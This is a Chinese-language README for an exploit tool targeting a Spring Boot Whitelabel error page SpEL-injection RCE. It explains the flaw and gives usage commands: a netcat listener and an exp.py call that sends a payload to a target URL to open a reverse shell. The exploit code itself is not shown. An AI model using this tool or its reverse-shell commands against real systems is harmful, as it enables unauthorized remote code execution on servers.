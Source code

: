 # SpringBoot-whitelabel-error-rce EXP
[English README.md](README.md)  
---

## 漏洞介绍
1、spring boot处理参数值出现错误，流程进入`org.springframework.util.PropertyPlaceholderHelper`类

2. 此时会使用`parseStringValue`方法递归解析URL中的参数值。

3、“${}”包围的内容会被“org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration”类的“resolvePlaceholder”方法解析为SpEL表达式执行，导致RCE漏洞。

---

## EXP介绍
通过这个EXP可以判断是否存在漏洞并反弹shell。

首先比如访问`/article?id=xxx`时，页面会报错，状态码为`500`：`Whitelabel Error Page`，可以使用当前的`POC & EXP`来尝试

---

## 使用方法
````shell
nc -lvvp 8088
python3 exp.py -lhost 127.0.0.1 -lport 8088 -t "http://127.0.0.1:9091/article?id="
````
> -lhost：监听主机  
   -lport：监听端口  
   -t：目标URL（**注意：需要包含主机、端口、路径、参数和"="。**）

![](help.jpg)  
![](success.jpg)